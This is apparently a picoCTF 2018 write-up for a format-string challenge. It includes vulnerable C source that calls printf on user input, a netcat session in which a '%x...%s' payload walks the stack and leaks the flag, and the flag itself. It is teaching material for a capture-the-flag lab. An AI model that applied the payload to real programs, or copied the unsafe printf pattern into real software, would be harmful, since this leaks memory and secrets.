 ## Question
>This program prints any input you give it. Can you [leak](//2018shell.picoctf.com/static/6375831141cee444f733bb8874516f3d/echo) the flag? Connect with `` nc 2018shell.picoctf.com 3981 ``. [Source](//2018shell.picoctf.com/static/6375831141cee444f733bb8874516f3d/echo.c).

### Hint
>If only the program used puts...

## Solution
Opening the source code we can see that a dangerous attacker-controlled buffer is passed to `printf()`:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[64];
  char flag[64];
  char *flag_ptr = flag;
  
  // Set the gid to the effective gid
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  memset(buf, 0, sizeof(flag));
  memset(buf, 0, sizeof(buf));

  puts("Time to learn about Format Strings!");
  puts("We will evaluate any format string you give us with printf().");
  puts("See if you can get the flag!");
  
  FILE *file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  
  fgets(flag, sizeof(flag), file);
  
  while(1) {
    printf("> ");
    fgets(buf, sizeof(buf), stdin);
    printf(buf);
  }  
  return 0;
}
```
When using format strings the function `printf()` looks for an argument for each format string, when no argument is give - the program is tricked to keep browsing addresses in the stack ([we learned before from assembly subroutines that c functions are given arguments using the stack](https://github.com/jugges/picoctf-2018-writeup/tree/master/Reversing/assembly-0)).
```bash
~$ nc 2018shell.picoctf.com 3981
Time to learn about Format Strings!
We will evaluate any format string you give us with printf().
See if you can get the flag!
> %x%x%x%x%x%x%s
40f779a5a08048647f77d3a741f77aa490
> %x%x%x%x%x%x%x%s
40f779a5a08048647f77d3a741f77aa490fff1f234picoCTF{foRm4t_stRinGs_aRe_DanGer0us_36de83c4}
```
So in order to leak the flag we will just climb up the stack using `%x` which outputs hex value and print the last stack inquery we bump into using `%s`.
[For a table of format string specifiers & outputs](https://www.tutorialspoint.com/c_standard_library/c_function_printf.htm)
[For more reading on the subject of format string exploits](http://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html)
### Flag
`picoCTF{foRm4t_stRinGs_aRe_DanGer0us_36de83c4}`
